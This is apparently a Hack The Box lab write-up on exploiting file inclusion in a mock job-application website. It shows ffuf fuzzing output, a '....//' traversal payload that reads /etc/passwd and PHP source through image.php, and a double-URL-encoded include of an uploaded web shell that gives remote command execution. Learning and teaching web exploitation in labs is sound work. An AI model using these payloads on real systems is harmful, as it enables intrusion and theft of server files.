








# WRITE UP SKILL_ASSESSMENT - HTB LFI MODULE
## MY MAIN IDEA AND WALKTHROUGH
### Step 1. Basic checking
This is our target web IP where we have to check and find the `File Inclusion vulnerability`.


Let's check how the website looks on our web browser:


In this lab, there is a note for us:

```
You have been contracted by Sumace Consulting Gmbh to carry out a web application penetration test against their main website. During the kickoff meeting, the CISO mentioned that last year's penetration test resulted in zero findings, however they have added a job application form since then, and so it may be a point of interest.
```

According to this note, one of the most valuable things to check for `File Inclusion vulnerability` is the `Apply` tab. Trying to check all the clickable things on the website, I found plenty of `.php` files maybe allowed parameters input which could lead to `File Inclusion vulnerability`: `contact.php`, `apply.php` and `thanks.php`.

### Step 2. Searching deeper
At first, I thought the `thanks.php` file contained `File Inclusion vulnerability` because it used parameter `n` to input the name from the application form in `apply.php` file:



But after a while trying to fuzz the input to find exploitable strings, I got nothing. The `thanks.php` basically used the input for `n` parameter as a normal string and put it into the `Thanks for applying,...!` line. On the other hand, I could not find any visual parameter from `contact.php`, `apply.php`. So, my next step is fuzzing a little bit:
- Fuzzing `contact.php` file:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://<IP_ADDRESS>/contact.php?FUZZ=value -fs 1771

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://<IP_ADDRESS>/contact.php?FUZZ=value
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1771
________________________________________________

region                  [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 214ms]
:: Progress: [6453/6453] :: Job [1/1] :: 134 req/sec :: Duration: [0:00:36] :: Errors: 0 ::
```

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://<IP_ADDRESS>/contact.php?region=FUZZ -fs 1239

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://<IP_ADDRESS>/contact.php?region=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1239
________________________________________________

\\&apos;/bin/cat%20/etc/passwd\\&apos; [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 211ms]
\\&apos;/bin/cat%20/etc/shadow\\&apos; [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 217ms]
c:\AppServ\MySQL        [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 219ms]
d:\AppServ\MySQL        [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 223ms]
passwd                  [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 216ms]
L21hc3Rlci5wYXNzd2Q=    [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 212ms]
L2V0Yy9tYXN0ZXIucGFzc3dk [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 218ms]
ZXRjL3Bhc3N3ZA==        [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 217ms]
ZXRjL3NoYWRvdyUwMA==    [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 218ms]
L2V0Yy9wYXNzd2Q=        [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 206ms]
L2V0Yy9wYXNzd2QlMDA=    [Status: 200, Size: 1191, Words: 484, Lines: 36, Duration: 207ms]
...<SNIP>...
```

- Fuzzing `apply.php` file:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://<IP_ADDRESS>/apply.php?FUZZ=value -fs 1820

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://<IP_ADDRESS>/apply.php?FUZZ=value
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1820
________________________________________________

:: Progress: [6453/6453] :: Job [1/1] :: 177 req/sec :: Duration: [0:00:35] :: Errors: 0 ::
```

The fuzzing result showed us that there was a `region` parameter used by the `contact.php` file and it was vulnerable to `Local File Inclusion (LFI)`.

### Step 3. Finding other way
Checking the exploit `File Inclusion vulnerability` string from the fuzzing result with the `region` parameter on the website, I found nothing:

Before exploit attempt:



After exploit attempt:



So, we have to find another way to exploit. Maybe there were some `.php` files that did not appear on the website. Let check the source of the website:



I could see `image.php` file with `p` parameter from the website source. I fuzzed it:

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://<IP_ADDRESS>/api/image.php?p=FUZZ -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://<IP_ADDRESS>/api/image.php?p=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 216ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 215ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 231ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 220ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 228ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 231ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 237ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 236ms]
....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 224ms]
....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 224ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 243ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 252ms]
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 257ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 259ms]
....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 264ms]
....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 262ms]
....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 266ms]
....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 260ms]
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 1041, Words: 7, Lines: 22, Duration: 265ms]
:: Progress: [930/930] :: Job [1/1] :: 126 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

The `p` parameter could be exploited too! According to my personal experience, this type of `File Inclusion vulnerability` allowed us to read the backend server file content. First, I checked using `curl` and exploit string from the fuzzing scan:

```bash
curl http://<IP_ADDRESS>/api/image.php?p=....//....//....//....//....//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
```

The payload worked perfectly and now we could read the `etc/passwd` file. By this way, I could read all the source code of `application.php` file, which showed how the server worked with the inputs from `apply.php` file:

```bash
curl http://<IP_ADDRESS>/api/image.php?p=....//api/application.php 
<?php
$firstName = $_POST["firstName"];
$lastName = $_POST["lastName"];
$email = $_POST["email"];
$notes = (isset($_POST["notes"])) ? $_POST["notes"] : null;

$tmp_name = $_FILES["file"]["tmp_name"];
$file_name = $_FILES["file"]["name"];
$ext = end((explode(".", $file_name)));
$target_file = "../uploads/" . md5_file($tmp_name) . "." . $ext;
move_uploaded_file($tmp_name, $target_file);

header("Location: /thanks.php?n=" . urlencode($firstName));
```

The source code of `contact.php` file:

```bash
curl http://<IP_ADDRESS>/api/image.php?p=....//contact.php 
...<SNIP>...
                <p>
                    <?php
                    $region = "AT";
                    $danger = false;

                    if (isset($_GET["region"])) {
                        if (str_contains($_GET["region"], ".") || str_contains($_GET["region"], "/")) {
                            echo "'region' parameter contains invalid character(s)";
                            $danger = true;
                        } else {
                            $region = urldecode($_GET["region"]);
                        }
                    }

                    if (!$danger) {
                        include "./regions/" . $region . ".php";
                    }
                    ?>
                </p>
...<SNIP>...
```

And the source code of `image.php` file:

```bash
curl http://<IP_ADDRESS>/api/image.php?p=....//api/image.php 
<?php
if (isset($_GET["p"])) {
    $path = "../images/" . str_replace("../", "", $_GET["p"]);
    $contents = file_get_contents($path);
    header("Content-Type: image/jpeg");
    echo $contents;
}
?>
```

After reading the source code, we can understand how `image.php`, `contact.php`, and `application.php` work. Especially, the `contact.php` file has some logic errors.

### Step 4. RCE

I focused on two logic errors in the way how `contact.php` worked:

- Firstly, in this line `$region = urldecode($_GET["region"]);` we knew that `contact.php` will decode the string that is contained in `$region`. But the problem is the system always automatically decodes the url so our input in `region` parameter will be decoded two times. So, I had to encode the url two times to exploit.
- Second, `include "./regions/" . $region . ".php";` this line showed us that we could execute `.php` file through `contact.php`

I found another detail about how the server stored our posted files in the source code of `application.php` file: `$target_file = "../uploads/" . md5_file($tmp_name) . "." . $ext;`. The server stores our posted file in `uploads` folder with the hashed name using `md5`. So, my exploit idea is: posting our `.php` file containing `web shell` script through `Apply` tab, and using `Contact` tab to perform `File Inclusion` and `RCE`:



### Step 5. Exploit and get the flag
- Prepare the exploit file and hash it:


```bash
md5sum shell.php
fc023fcacb27a7ad72d605c4e300b389  shell.php
```

- Upload the `shell.php` file. `shell.php` file path in the backend server will be: `/uploads/fc023fcacb27a7ad72d605c4e300b389.php`
- Because the path in the source code of `contact.php` file began with the folder `regions` so we have to add `../` into `/uploads/fc023fcacb27a7ad72d605c4e300b389.php` to have a full and correct path
- Let encode the full path: `../uploads/fc023fcacb27a7ad72d605c4e300b389` two time and we will have the input exploit string for parameter `region`: `%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389`



- Now let try it on the website: `http://<IP_ADDRESS>/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=id`:



Our web shell worked perfectly. Now we could perform RCE to list all the file in `/` to find the flag file and gain the flag:

`http://<IP_ADDRESS>/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=ls%20-la%20/`



## THING I LEARNT AFTER THIS LAB:
- Do not spend too much time in web enum/fuzzing step
- But fuzzing is an important step to find hidden things =))))
- After solving about 03 labs, I think I knew what kind of `web fuzzing` I have to do first to gain helpful things
- `curl` sometimes shows things that are not visible on the website.
- `urlencode` is more powerful than I thought previously =))
- There are many types of `File Inclusion vulnerability` and each type has its own benefits.
- Trust the process